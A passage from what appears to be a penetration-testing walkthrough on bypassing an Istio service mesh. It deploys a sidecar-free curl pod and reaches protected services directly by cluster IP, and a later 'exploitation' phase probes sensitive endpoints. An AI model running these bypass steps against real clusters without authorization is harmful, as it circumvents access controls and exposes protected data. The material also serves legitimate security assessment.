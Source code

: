     This deploys a simple `curl` pod in the `default` namespace.  Crucially, because proxy injection isn't enabled for the namespace, *no sidecar proxy will be injected*.

    **Expected Output:**  A confirmation message like `pod/bypass-pod created`.

    **Explanation:** This creates a pod that can directly communicate with other services without going through the service mesh proxy.

4.  **Attempt to Access a Service Directly (Bypassing the Mesh):**

    ```bash
    POD_NAME=$(kubectl get pod -l app!=istio-proxy -n default -o jsonpath='{.items[?(@.metadata.name=="bypass-pod")].metadata.name}')
    SERVICE_NAME="your-target-service" # Replace with the name of the service you want to access
    SERVICE_IP=$(kubectl get svc $SERVICE_NAME -n default -o jsonpath='{.spec.clusterIP}')

    kubectl exec -it $POD_NAME -n default -- curl -s $SERVICE_IP:<port>
    ```

    *   `POD_NAME=$(kubectl get pod -l app!=istio-proxy -n default -o jsonpath='{.items[?(@.metadata.name=="bypass-pod")].metadata.name}')`:  Gets the name of the `bypass-pod` we just created. `app!=istio-proxy` ensures we get a pod without the Istio proxy label.
    *   `SERVICE_NAME="your-target-service"`: Replace `"your-target-service"` with the actual name of a target service that *should* be protected by the mesh. For example, if there's a service called `sensitive-data`, use that.
    *   `SERVICE_IP=$(kubectl get svc $SERVICE_NAME -n default -o jsonpath='{.spec.clusterIP}')`: Gets the cluster IP of the target service.
    *   `kubectl exec -it $POD_NAME -n default -- curl -s $SERVICE_IP:<port>`: Executes `curl` inside the `bypass-pod` to access the target service using its cluster IP and port.  Replace `<port>` with the appropriate port. If the target service's port is 8080, it would be `$SERVICE_IP:8080`.

    **Expected Output:**  If the bypass is successful, you'll receive the response from the target service. If the service is protected, the request might be blocked by network policies *outside* the mesh, but that's a different type of security and the mesh is still bypassed.

    **Explanation:** This step attempts to directly access the target service using the `bypass-pod`, bypassing the service mesh's authorization policies. If this succeeds, it confirms the vulnerability.  If you *cannot* access the service, it doesn't necessarily mean the service mesh is perfectly configured.  It might mean other security controls (e.g., Kubernetes Network Policies) are in place.

**Phase 2: Exploitation (if Validation Successful)**

The steps below assume you successfully accessed the service directly.

1.  **Identify and Access Sensitive Endpoints (if possible):**

    Once you can access the target service, explore its available endpoints to identify those containing sensitive data or performing critical functions.

    ```bash
    POD_NAME=$(kubectl get pod -l app!=istio-proxy -n default -o jsonpath='{.items[?(@.metadata.name=="bypass-pod")].metadata.name}')
    SERVICE_NAME="your-target-service" # Replace with the name of the service you are targeting
    SERVICE_IP=$(kubectl get svc $SERVICE_NAME -n default -o jsonpath='{.spec.clusterIP}')
    ENDPOINT="/sensitive-endpoint"  # Replace with the actual endpoint

    kubectl exec -it $POD_NAME -n default -- curl -s $SERVICE_IP:<port>$ENDPOINT
    ```
